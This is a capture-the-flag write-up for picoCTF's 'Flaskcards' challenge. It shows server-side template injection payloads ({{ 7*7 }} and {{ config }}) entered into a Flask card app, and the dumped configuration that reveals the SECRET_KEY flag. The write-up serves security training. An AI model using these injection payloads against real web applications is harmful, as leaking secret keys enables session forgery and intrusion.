 # Flaskcards - Web

We are given a webpage where we first register an account and then we have the ability to create cards and view those created cards. After trying some different input, and thinking about the challenge title we figured out this is a SSTI problem and that Flask is used as backend.

This can be confirmed by entering

> {{ 7*7}}

This gives us 49 so it is executed on the backend. Then we can input 
> {{ config }}

><Config {'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'DEBUG': False, 'MAX_COOKIE_SIZE': >4093, 'TEMPLATES_AUTO_RELOAD': None, 'PREFERRED_URL_SCHEME': 'http', 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, >43200), 'SESSION_COOKIE_NAME': 'session', 'SQLALCHEMY_POOL_RECYCLE': None, 'SESSION_COOKIE_SAMESITE': None, >'TRAP_BAD_REQUEST_ERRORS': None, 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_e8a55760}', 'JSON_SORT_KEYS': True, >'SQLALCHEMY_POOL_SIZE': None, 'SERVER_NAME': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TESTING': False, >'SQLALCHEMY_MAX_OVERFLOW': None, 'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SQLALCHEMY_BINDS': None, >'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), >'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'JSONIFY_MIMETYPE': 'application/json', 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, >'PROPAGATE_EXCEPTIONS': None, 'APPLICATION_ROOT': '/', 'MAX_CONTENT_LENGTH': None, 'ENV': 'production', >'EXPLAIN_TEMPLATE_LOADING': False, 'SESSION_COOKIE_HTTPONLY': True, 'SQLALCHEMY_NATIVE_UNICODE': None, >'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': False, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', >'BOOTSTRAP_CDN_FORCE_SSL': False, 'SQLALCHEMY_ECHO': False, 'TRAP_HTTP_EXCEPTIONS': False, 'SQLALCHEMY_POOL_TIMEOUT': None, >'BOOTSTRAP_USE_MINIFIED': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'SQLALCHEMY_RECORD_QUERIES': None, >'SESSION_COOKIE_PATH': None}>

Boom! We have the flag: picoCTF{secret_keys_to_the_kingdom_e8a55760}
